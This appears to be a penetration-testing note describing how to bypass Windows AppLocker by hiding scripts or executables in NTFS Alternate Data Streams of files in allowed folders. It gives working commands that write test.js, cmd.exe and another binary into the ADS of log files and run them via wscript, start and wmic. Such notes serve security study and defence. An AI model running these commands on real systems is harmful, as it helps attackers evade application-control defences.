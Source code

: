 # Resources
- https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
- https://hitco.at/blog/howto-prevent-bypassing-applocker-using-alternate-data-streams/
- https://lolbas-project.github.io/#/alternate%20data%20streams

## Requirements

If you have write and execute access to a file in a subdirectory of allowed AppLocker paths (such as C:\Windows or C:\Program Files), it is possible to abuse Alternate Data Streams (ADS) to bypass AppLocker. By embedding a malicious executable or script into a file's ADS (such as an .exe or .js), you could then attempt to execute the payload.

AppLocker policies often focus on blocking file execution by file paths and filenames. ADS allows embedding the payload in a hidden stream of an existing file, which may bypass these restrictions. For example, a DLL or executable embedded in ADS could potentially be executed through trusted processes like rundll32.exe or control.exe, bypassing AppLocker restrictions in certain cases.

```powershell
type test.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
wscript "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"

type C:\Windows\System32\cmd.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:cmd.exe"
start "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:cmd.exe"

type c:\users\student\Desktop\twigs.exe > "C:\Windows\Tasks\test.log:twigs.exe"
wmic process call create '"C:\Windows\Tasks\test.log:twigs.exe"'

```
